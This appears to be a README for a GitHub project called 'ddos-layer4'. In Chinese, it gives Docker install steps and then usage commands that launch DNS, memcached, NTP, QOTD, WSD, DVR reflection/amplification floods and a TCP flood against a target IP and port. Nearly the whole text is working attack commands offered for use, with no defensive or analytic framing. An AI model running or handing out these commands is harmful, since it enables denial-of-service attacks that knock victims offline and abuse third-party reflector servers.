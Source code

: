 ### 安装 （docker）

	apt update -y && apt install docker.io -y && apt install git -y && git clone https://github.com/qq1521575701/ddos-layer4.git && cd ddos-layer4 && docker build -t ddos-layer4 . && docker run -itd --name ddos-layer4 --network host ddos-layer4:latest 

### 进入容器 （docker）

	docker exec -it ddos-layer4 /bin/bash

### 使用（docker）
	docker exec -it ddos-layer4 ./dns ip port dns.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./meme ip port meme.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./qotd ip port qotd.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./wsd ip port wsd.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./dvr ip port dvr.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./ntp ip port ntp.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./tcp ip port 1 -1 60 &
